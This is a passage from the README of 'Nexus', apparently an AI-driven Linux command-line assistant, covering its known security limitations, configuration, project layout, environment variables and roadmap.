| **Cascading API failures** | All LLM fallbacks slammed simultaneously on rate-limit | Exponential backoff with jitter between fallback attempts |

### Remaining Attack Surface / Known Limitations
- `shell=True` is still used for commands with pipeline operators — a sophisticated injected payload containing `|` could still bypass isolation. Mitigation: the AST validator and user confirmation gate remain the last line of defence.
- sudo password is zeroed on auth failure, but a core dump between prompt and clear could expose it in memory. Mitigation: use a dedicated `sudo` session token (planned, P3).
- Session file (`~/.nexus/session.json`) is unencrypted. On multi-user machines, ensure proper home directory permissions (700).

### Configuration
```bash
# Enable dry-run (no commands ever executed)
export JARVIS_DRY_RUN=1

# Audit log location
~/.nexus/audit.log

# Session history location
~/.nexus/session.json
```

## Project Structure

```
nexus/
├── src/jarvis/
│   ├── ai/                      # AI clients and intelligence
│   │   ├── llm_client.py        # Model abstractions + prompt enrichment
│   │   ├── command_generator.py  # NL → shell with SafetyCheck
│   │   ├── decision_engine.py   # Fast heuristic + slow LLM routing
│   │   └── memory_client.py     # Supermemory RAG integration
│   ├── core/                    # Core systems
│   │   ├── orchestrator.py      # Multi-step execution + self-healing
│   │   ├── executor.py          # Command execution + audit + secure sudo
│   │   ├── audit_logger.py      # Tamper-evident command log (chmod 600)
│   │   ├── session_manager.py   # In-memory session state
│   │   ├── persistent_session_manager.py  # Disk-persisted sessions
│   │   ├── config_manager.py    # API keys + preferences (chmod 600)
│   │   ├── api_key_rotator.py   # Google API key rotation
│   │   ├── system_detector.py
│   │   └── security.py          # AST validation + pattern blacklist
│   ├── modules/                 # Feature modules
│   │   ├── browser_manager.py   # browser-use + API key rotation
│   │   └── package_manager.py   # apt/dnf/pacman with name validation
│   ├── ui/                      # User interfaces
│   │   ├── console_app.py       # Rich TUI with slash commands
│   │   └── onboarding.py
│   ├── utils/
│   │   └── syntax_output.py     # Rich syntax highlighting for file reads
│   └── main.py                  # CLI entry point (Typer)
├── tests/                       # 182+ pytest tests
├── docs/
│   ├── FUTURE_SCOPE.md          # Roadmap + shipped features
│   ├── architecture_overview.md # Architecture deep-dive with Mermaid diagrams
│   ├── model_usage_guide.md     # Which AI model is used where
│   ├── API_KEY_ROTATION_GUIDE.md
│   ├── GROQ_GPT_FALLBACK.md
│   └── MEMORY_PERSISTENCE_GUIDE.md
├── .github/workflows/ci.yml    # CI: tests + lint + security scan
├── pyproject.toml
└── README.md
```

## Environment Variables

| Variable | Purpose | Required |
|----------|---------|----------|
| `GOOGLE_API_KEY` | Gemini models, search | For search feature |
| `OPENROUTER_API_KEY` | GPT models via OpenRouter | For best chat quality |
| `GROQ_API_KEY` | Fast routing decisions | Optional (fallback to others) |
| `SUPERMEMORY_API_KEY` | Memory/RAG system | Optional |
| `BROWSER_USE_API_KEY` | Cloud browser automation | Optional |

## Roadmap

See [docs/FUTURE_SCOPE.md](docs/FUTURE_SCOPE.md) for the full roadmap.

**Shipped:**
Multi-brain AI architecture, Supermemory RAG, browser automation with key rotation, self-healing execution, exponential backoff (planner) + **command-generator retries/fallbacks**, SERVICE_MGT, **DIRECT_EXECUTE**, planner system-ops knowledge (AppImage, deb, rpm, desktop entries), persistent sessions, audit logging, secure sudo, shell injection hardening, **182-test** suite, CI with linting and security scanning.

**Up next:**
Rollback checkpoints, dynamic slash command registry, **FILE_APPEND / FILE_PATCH**, LLM rate limiting & budgets, context window management, parallel step execution.

**Long-term:**
MCP integration, Git assistant, Docker management mode, natural language cron jobs, interactive desktop avatar.

## Contributing

Contributions are welcome! This project is actively developed.

## License

[Add your license here]

## Author

Created by Garvit (garvitjoshi543@gmail.com)

---

**Nexus** - Your intelligent Linux companion, powered by multiple AI brains working in harmony.
